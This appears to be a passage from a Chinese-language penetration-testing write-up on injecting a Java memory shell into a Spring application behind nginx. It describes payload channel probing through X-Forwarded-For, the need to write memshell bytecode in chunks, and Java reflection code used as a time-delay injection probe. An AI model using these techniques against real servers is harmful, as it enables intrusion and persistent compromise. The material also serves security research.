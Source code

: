 
首先判断是否接收到 Host
- 延时成功，说明payload没有问题，后端应用接收到了Host header

![](./img/1708841588448.png)

测试发现，由于 nginx 的存在，导致很多 header 无法转发到后端应用，探测出来适合传输 payload 的只有 X-Forwarded-For;
后续经过测试， X-Forwarded-For 能传递的内容长度在 1000 左右；在不考虑网络稳定性、负载均衡的情况下，注入内存马的的字节码（[jMG](https://github.com/pen4uin/java-memshell-generator-release)生成）至少需要分16次写入

5）request inputstream - 失败

测试代码

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke(null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
InputStream inputStream = (InputStream) request.getClass().getMethod("getInputStream").invoke(request);
BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
StringBuilder stringBuilder = new StringBuilder();
String line;
while ((line = reader.readLine()) != null) {
    stringBuilder.append(line);
}
String code = stringBuilder.toString();
if (!code.contains("ok")) {
    Thread.sleep(3000);
}
```

测试结果
- 全部请求方式均失败

